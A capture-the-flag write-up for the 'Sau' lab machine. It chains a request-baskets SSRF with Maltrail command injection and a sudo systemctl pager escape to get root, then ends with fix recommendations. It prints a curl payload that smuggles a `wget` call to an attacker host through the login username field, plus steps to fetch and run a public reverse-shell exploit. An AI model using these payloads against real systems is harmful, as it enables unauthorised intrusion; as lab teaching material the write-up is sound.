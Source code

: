 # Sau
- [Sau](#sau)
  - [Service Enumeration](#service-enumeration)
  - [Low-Privilege Access](#low-privilege-access)
    - [Service-Side Request Forgery (SSRF)](#service-side-request-forgery-ssrf)
    - [Verifying the Vulnerability](#verifying-the-vulnerability)
    - [Access Port 80](#access-port-80)
  - [Unauthenticated OS Command Injection](#unauthenticated-os-command-injection)
    - [Verifying the Vulnerability](#verifying-the-vulnerability-1)
    - [Reverse Shell](#reverse-shell)
  - [Privilege Escalation](#privilege-escalation)
  - [Recommendations](#recommendations)

## Service Enumeration
A port scan reveals the machine is running SSH and a possible web server on 55555. Port 80 is blocked as well.

<img src="images/01_nmap_scan.png" alt="Port scan results" width="50%" height="50%"> <br>

Navigating to `http://10.10.11.224:55555` results in a redirect to `http://10.10.11.224:55555/web`, which hosts an instance of [request-baskets](https://github.com/darklynx/request-baskets) 1.2.1.

<img src="images/02_request-baskets_homepage.png" alt="request-baskets homepage" width="50%" height="50%"> <br>

<img src="images/03_request-baskets_version.png" alt="request-baskets v1.2.1" width="50%" height="50%">

## Low-Privilege Access

### Service-Side Request Forgery (SSRF)
request-baskets 1.2.1 is affected by a Server-Side Request Forgery (SSRF) vulnerability. A basket can be configured so it forwards incoming requests to another URL, allowing an attacker to use the request-baskets server as a proxy. This is done by setting the **Forward URL** on a basket and then accessing it at `http://10.10.11.224:55555/BASKET-NAME`.

This vulnerability is known to affect versions up to 1.2.1 and has been assigned [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163). Details are available [here](https://notes.sjtu.edu.cn/s/MUUhEymt7).

### Verifying the Vulnerability
Let's create a basket and see if we can get the server to make a request against our attack machine.

Creating a basket is simple - a name should already be generated (along with the URL); just click **Create**. When the pop-up appears, click **Open Basket**.

To configure the basket, click on the gear icon.

<img src="images/04_request-baskets_gear_icon.png" alt="Basket settings icon" width="50%" height="50%"> <br>

Set the **Forward URL** to `http://MY-IP:80/test`.

<img src="images/05_request-baskets_foward_url_test.png" alt="Basket configuration settings" width="50%" height="50%"> <br>

Start a Netcat listener and navigate to `http://10.10.11.224:55555/BASKET-NAME`. There should be an empty page in the browser. However, the Netcat listener catches a GET request from 10.10.11.224.

<img src="images/06_netcat_basket_test.png" alt="Netcat listener output" width="50%" height="50%"> <br>

### Access Port 80
Based on our port scan results, we don't have direct network access to port 80 on Sau. However, maybe we can use the exploit to get there and confirm if a web server exists.

Modify our basket with the following settings:
- **Forward URL**: `http://127.0.0.1`
- **Proxy Response**: Checked

<img src="images/07_request-baskets_localhost_proxy.png" alt="Reconfigure basket" width="50%" height="50%"> <br>

Navigating to `http://10.10.11.224:55555/BASKET-NAME` brings us to a new page with **Maltrail (v0.53)** at the bottom.

<img src="images/08_maltrail_homepage.png" alt="Maltrail homepage" width="50%" height="50%"> <br>

## Unauthenticated OS Command Injection
[Maltrail](https://github.com/stamparm/maltrail) up to and including v0.54 are affected by an unauthenticated [OS command injection vulnerability](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/). An attacker can inject OS commands into the `username` parameter of the login page.

### Verifying the Vulnerability
Let's see if we can get Sau to make a request against our attack machine using `wget`.

Update the basket's **Forward URL** to `http://127.0.0.1/login`. 
> Maltrail's default listening port is 8338. However, the instance running on Sau is accessible on 80, so we'll stick with that.

<img src="images/09_maltrail_cmd_injection_test.png" alt="Basket settings to verify Maltrail command injection" width="50%" height="50%"> <br>

Start a Netcat listener and run the following command:
```bash
curl 'http://10.10.11.224:55555/BASKET-NAME' \
--data 'username=;`wget http://MY-IP/evil-test`'
```

We should see a GET request for `/evil-test`.

<img src="images/10_maltrail_netcat_evil-test.png" alt="Netcat output for evil-test" width="50%" height="50%"> <br>

With command execution confirmed, let's work on getting a shell.

### Reverse Shell
Luckily, there is a [Python script](https://github.com/spookier/Maltrail-v0.53-Exploit) available that can make this easy. The payload is a base64-encoded Python reverse shell.

Start a Netcat listener, then download and run the exploit.
```bash
wget https://raw.githubusercontent.com/spookier/Maltrail-v0.53-Exploit/main/exploit.py -O maltrail_rce.py

python3 maltrail_rce.py MY-IP LISTENING-PORT http://10.10.11.224:55555/BASKET-NAME
```

After a few moments, we'll get access as `puma`.

The flag is located at `/home/puma/user.txt`.

<img src="images/11_maltrail_puma_shell.png" alt="Netcat output for evil-test" width="50%" height="50%"> <br>

## Privilege Escalation
Our user has sudo permissions to check the status of the Maltrail server.

<img src="images/12_sudo_permissions.png" alt="available sudo commands" width="50%" height="50%"> <br>

The output of `systemctl` is shown in chunks or paginated. We can inject OS commands into the pager, such as `!bash`. Because we are running as sudo, we end up with a root shell.

<img src="images/13_pager_command_injection.png" alt="available sudo commands" width="50%" height="50%"> <br>

The flag is located at `/root/root.txt`.

## Recommendations
- Run request-baskets in restricted mode to prevent unauthenticated users from creating baskets. The redirect functionality appears to be a core part of the application; the SSRF was tested and confirmed to be working as of v.1.2.3.
  - See `-mode` under the [Parameters](https://github.com/darklynx/request-baskets) section.
- Upgrade to Maltrail v0.55 or above to fix the unauthenticated OS command injection vulnerability.
- Remove sudo permissions that allow `puma` to check service status for Maltrail; the command can be performed without sudo.